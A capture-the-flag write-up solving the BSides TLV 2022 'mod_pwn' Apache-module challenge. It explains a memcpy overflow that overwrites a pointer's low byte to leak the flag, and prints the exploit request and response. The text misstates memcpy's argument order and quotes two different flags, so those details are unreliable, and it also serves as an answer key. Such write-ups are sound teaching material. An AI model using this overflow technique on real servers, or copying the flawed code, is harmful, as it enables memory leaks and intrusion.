

# BSides TLV CTF 2022 - [https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)
Pwn, 200 Points

## Description



Attached file [mod_pwn.tar.gz](./mod_pwn.tar.gz) 

## To Note Solution

By extracting the tar.gz file we can the following files:
```console
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/pwn/mod_pwn]
└──╼ $ tree
.
├── Dockerfile
├── httpd.conf
├── Makefile
├── mod_pwnable.c
├── mod_pwnable.so
└── mod_pwn.tar.gz

0 directories, 6 files
```

By observing the source code we can see the flag on the static variables:
```c
...
#define ERR_NAME_TOO_LONG -1
#define MAX_NAME_SIZE 128 
const char flag[] = "BSidesTLV2022{n4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}}";
const char footer[] = "\n<hr /> can u pwn me?\n\n";
...
```

We can see also the following function:
```c
static int pwnable_handler(request_rec *r)
{
    /* Init welcome object */
    welcome_msg_obj welcome_msg;
    memset(&welcome_msg, NULL, sizeof(welcome_msg));
    welcome_msg.suffix = &footer;
    strcpy(welcome_msg.color, "blue");

    /* Set the appropriate content type */
    ap_set_content_type(r, "text/html");
    
    /* Verify HTTP request method */
    if (strcmp(r->method, "GET") == OK) {
        ap_rputs("<h1>BSidesTLV 2022 Apache module!</h1> <br/>", r);
        if (r->args) {
            fetch_name_param(r, &welcome_msg.name);
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
        else {
             ap_rprintf(r, "<form>\n");
             ap_rprintf(r, "Enter your name: <input type='text' name='name'> -> <input type='submit' />\n");
             ap_rprintf(r, "</form>\n");
        }
    }
    return OK;
}
```

As we can see, ```welcome_msg.suffix``` get the address of ```footer``` which locate on the memory near the flag.

Next, We can see [Buffer Overflow](https://ctf101.org/binary-exploitation/buffer-overflow/) on ```fetch_name_param``` function:
```c
static void fetch_name_param(request_rec *r, char *out) {
    char *name = &r->args[5]; // skipping the "?name=" prefix
    if(strlen(name) > sizeof(welcome_msg_obj)) {
        char *msg = apr_palloc(r->pool, MAX_NAME_SIZE); // CTF Note: The way `apr_palloc` works should NOT be a concern when trying to solve this challenge. Treat it as if it was a traditional `malloc` call.
        sprintf(msg, "Error, name too long: %.16s...", name);
        raise_error(ERR_NAME_TOO_LONG, out, msg); 
    } else {
        memcpy(out, name, strlen(name));
    }
    ap_unescape_urlencoded(out);
}
```

The function doesn't check the length of ```name``` before calling to ```memcpy``` function.

```memcpy``` get three params, ```out``` which is ```welcome_msg.name``` which is the source, ```name``` which is the user input as dest, and the length of ```name```.

```welcome_msg_obj``` struct is:
```c
typedef struct _welcome_msg_obj {
    char name[MAX_NAME_SIZE];
    char *suffix;
    char color[32];
} welcome_msg_obj;
```

We can see that ``name``` locate before ```suffix``` on the memory, Meaning that we can overwrite the ```suffix``` variable.

Because ```suffix``` locate close to the ```flag``` on the memory we can overwrite the last byte of ```suffix``` to make ```suffix``` point to the ```flag``` variable.

We can imagine this like that in the memory:
```
...
&flag	0x006b7b3c
&footer	0x006b7b78 
...
```

Because we can overwrite ```suffix``` variable (which point to the address of ```footer```) we can make ```suffix``` to point on the flag.

```suffix``` varbile is print to the page on  ```pwnable_handler``` function:

```c
static int pwnable_handler(request_rec *r)
{
    ...
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
    ...
    return OK;
}
```

So we just need to send ```128``` bytes to fill ```name``` array and then we need to send another byte to overwrite the last byte of ```suffix``` to get the flag.

Because we don't know what is the flag size we need to do a type of brute force.

After a few guessing, we found the character ```+``` is the offset between ```suffix``` to ```flag```.

We can get the flag by sending the following HTTP request:
```HTTP
GET /ctf?name=yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy+ HTTP/2
Host: mod-pwn.ctf.bsidestlv.com
Cookie: bsidestlv-ctf-session=5fb7eed40a3353355d5070baf624f3df|6249ddd6c7fc469ba9a96304f8d57c7b
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://mod-pwn.ctf.bsidestlv.com/ctf
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7


```

Response:
```
HTTP/2 200 OK
Date: Sat, 02 Jul 2022 22:19:55 GMT
Content-Type: text/html
Content-Length: 280
Set-Cookie: bsidestlv-ctf-session=ed0838bcfaa56e3df80f9b6edceb7d6d|6249ddd6c7fc469ba9a96304f8d57c7b; Max-Age=360; Path=/; Secure; HttpOnly
Strict-Transport-Security: max-age=15724800; includeSubDomains

<h1>BSidesTLV 2022 Apache module!</h1> <br/>Welcome, <font color='blue'>yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy ao
</font> 
<br />
BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}
```

And we get the flag ```BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}```.